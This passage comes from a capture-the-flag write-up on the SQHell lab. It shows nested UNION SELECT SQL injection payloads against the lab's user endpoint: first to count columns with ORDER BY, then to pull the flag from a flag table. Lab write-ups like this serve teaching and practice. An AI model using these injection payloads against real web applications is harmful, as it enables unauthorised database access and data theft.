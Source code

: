 Here I've just added an ORDER BY query to the end of the UNION SELECT 1, and enclosed it in quotes so it gets evaluated. As before we keep adding columns until we something changes:

```text
http://sqhell.thm/user?id=1337 union select "1 order by 1,2,3,4,5-- -",2,3 from information_schema.tables where table_schema=database()
```

![sqhell-users-orderby5](../assets/images/2021-06-22-21-54-52.png)

We can see at five columns the posts disappear. This tells us there are four columns. Now we can use the same query as before to get the flag from the flag table:

```text
http://sqhell.thm/user?id=1337 union select "1 union select 1,flag,3,4 from flag-- -",2,3 from information_schema.tables where table_schema=database()
```

![sqhell-users-flag](../assets/images/2021-06-22-22-09-04.png)

At last we have our flag.

## Flag 4 - Out-of-band - Curl Method

If we hadn't got a browser available we can do the same process using Curl. I won't go through all the steps again as they are just the same methodology as we did with Firefox.
